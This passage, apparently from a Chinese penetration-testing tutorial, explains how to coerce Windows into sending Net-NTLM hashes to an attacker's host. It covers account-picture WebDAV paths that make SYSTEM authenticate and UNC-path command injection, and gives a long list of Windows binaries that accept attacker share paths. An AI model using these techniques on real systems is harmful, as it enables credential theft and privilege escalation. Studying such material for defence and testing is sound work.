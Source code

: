 ### 3.用户头像

适用于Windows 10/2016/2019

在更改账户图片处。

![image-20191125005509564](https://p2.ssl.qhimg.com/t019c8338b41bc63f6a.png)

用普通用户的权限指定一个webadv地址的图片，如果普通用户验证图片通过，那么SYSTEM用户(域内是机器用户)也去访问172.16.100.180，并且携带凭据，我们就可以拿到机器用户的net-ntlm hash，这个可以用来提权。后面会详细讲。

## 0x02 系统命令携带UNC路径

这个比较鸡肋，都能执行命令了，干啥不行呢。但作为一种场景，也说明下。说不定有些限制的命令注入就是支持传进UNC路径呢。我平时在测试的时候一般都是用 `dir \\ip\xxx`来做测试的，很多cmd命令是支持传进UNC路径的，执行的时候我们就可以拿到用户的net-ntlm  hash了。至于有哪些命令。这篇文章总结了一些命令,总结得挺全面的。
[内网渗透——针对hash的攻击](https://www.anquanke.com/post/id/177123)

```cmd
> net.exe use \hostshare 
> attrib.exe \hostshare  
> bcdboot.exe \hostshare  
> bdeunlock.exe \hostshare  
> cacls.exe \hostshare  
> certreq.exe \hostshare #(noisy, pops an error dialog) 
> certutil.exe \hostshare  
> cipher.exe \hostshare  
> ClipUp.exe -l \hostshare  
> cmdl32.exe \hostshare  
> cmstp.exe /s \hostshare  
> colorcpl.exe \hostshare #(noisy, pops an error dialog)  
> comp.exe /N=0 \hostshare \hostshare  
> compact.exe \hostshare  
> control.exe \hostshare  
> convertvhd.exe -source \hostshare -destination \hostshare  
> Defrag.exe \hostshare  
> diskperf.exe \hostshare  
> dispdiag.exe -out \hostshare  
> doskey.exe /MACROFILE=\hostshare  
> esentutl.exe /k \hostshare  
> expand.exe \hostshare  
> extrac32.exe \hostshare  
> FileHistory.exe \hostshare #(noisy, pops a gui)  
> findstr.exe * \hostshare  
> fontview.exe \hostshare #(noisy, pops an error dialog)  
> fvenotify.exe \hostshare #(noisy, pops an access denied error)  
> FXSCOVER.exe \hostshare #(noisy, pops GUI)  
> hwrcomp.exe -check \hostshare  
> hwrreg.exe \hostshare  
> icacls.exe \hostshare   
> licensingdiag.exe -cab \hostshare  
> lodctr.exe \hostshare  
> lpksetup.exe /p \hostshare /s  
> makecab.exe \hostshare  
> msiexec.exe /update \hostshare /quiet  
> msinfo32.exe \hostshare #(noisy, pops a "cannot open" dialog)  
> mspaint.exe \hostshare #(noisy, invalid path to png error)  
> msra.exe /openfile \hostshare #(noisy, error)  
> mstsc.exe \hostshare #(noisy, error)  
> netcfg.exe -l \hostshare -c p -i foo 
```
